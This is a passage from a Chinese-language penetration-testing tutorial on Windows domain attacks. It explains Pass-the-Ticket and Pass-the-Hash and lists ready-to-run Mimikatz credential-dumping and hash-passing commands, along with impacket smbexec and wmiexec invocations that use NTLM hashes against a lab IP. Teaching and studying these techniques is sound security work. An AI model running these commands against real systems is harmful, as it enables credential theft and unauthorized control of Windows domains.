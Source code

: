 [![img](assets/1702372821-3f4d58bf781947fa4042a9c0477fb563.png)](https://storage.tttang.com/media/attachment/2023/05/09/d8ba59d2-557c-4c35-bbf9-7cdd80593836.png)

**PTT-票据传递**

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，三种常见的攻击方法：

MS14-068，Golden ticket，SILVER ticket。简单来说就是将连接合法的票据注入到内存中实现连接。

Golden ticket(黄金票据)，SILVER ticket(白银票据) 属于权限维持技术

MS14-068 基于漏洞，造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是 kb3011780

## [PTH](#toc_pth)

### [**利用 Mimikatz 进行 PTH**](#toc_mimikatzpth)

Mimikatz 内置了哈希传递的功能，需要本地管理员权限。

① 抓取用户的哈希

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

② 利用抓取的域管理员的 NTLM hash 进行哈希传递

```plain
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit
```

### [**利用 impacket 进行 PTH**](#toc_impacketpth)

Impacket 项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

```plain
psexec.py      # 类似 PSEXEC 的功能示例，使用 remcomsvc（https://github.com/kavika13/remcom）smbexec.py     # 与使用 remcomsvc 的 psexec w/o 类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地 smbserver 以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
               #-hashes 指定用户完整的哈希，如果 LM 哈希被废弃，就将其指定为 0 或者空 

atexec.py      # 此示例通过 Task Scheduler 服务在目标计算机上执行命令，并返回已执行命令的输出。

wmiexec.py     # 需要开放 139 和 445 端口，通过 Windows Management Instrumentation 使用的半交互式 shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
dcomexec.py    # 类似于 wmiexec.py 的半交互式 shell，但使用不同的 DCOM 端点。目前支持               MMC20.Application，ShellWindows 和 ShellBrowserWindow 对象。
```
